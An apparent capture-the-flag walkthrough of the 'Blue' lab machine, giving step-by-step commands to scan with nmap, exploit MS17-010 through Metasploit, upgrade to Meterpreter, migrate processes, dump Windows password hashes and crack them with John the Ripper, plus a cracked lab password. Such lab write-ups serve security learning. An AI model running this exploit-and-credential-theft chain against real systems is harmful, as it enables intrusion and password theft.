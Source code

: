 # Blue Walkthrough
Starting out with a scan of the machine using --script vuln

`nmap -sV -sC --script vuln -oX blueNmap.xml 10.10.254.37`

convert xml script to html using xslt

`xsltproc blueNmap.xml -o blueNmap.html

read with xdg-open

`xdg-open blueNmap.html

we notice that there are 3 vulnerabilites available. we are tyring to gain access to the host so we will try to exploit the Remote Code Execution Vulnerabilit in microsoft samba servers
ms17-10

open metasploit, search for the vulnerability found, use vuln, set options, and run

`msfconsole
`search ms17
`use 0
`show options
`set RHOSTS 10.10.254.37
`exploit

Exploit works and we get into the windows prompt
We will now background the sessions and get into meterpreter

`Ctrl+Z to background the session`
`sessions` check sessions

can get into meterpreter (from msfconsole) and then set session number

`use post/multi/manage/shell_to_meterpreter`
`use`
`set session 1`
`exploit`

interact with sessions by
`sessions -i 2`

[[METERPRETER]]
use `getuid` to find out who you are logged in as
check processes with `ps`
attempt to migrate to a process (**spoolsv.exe** is a good proccess to migrate to)
migrate to spoolsv.exe with `migrate [process ID]`
dump hashes `hashdump`

we noticed from our nmap scan our host computer is named john and his hashes are available
copy the hashes to a txt file and use john the ripper for password cracking

use [[JOHNRIPPER & HASHCAT]] to crack password hash, save to file
`john JohnHash.hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt --show`
password: alqfna22

now we browse the directory to find the flags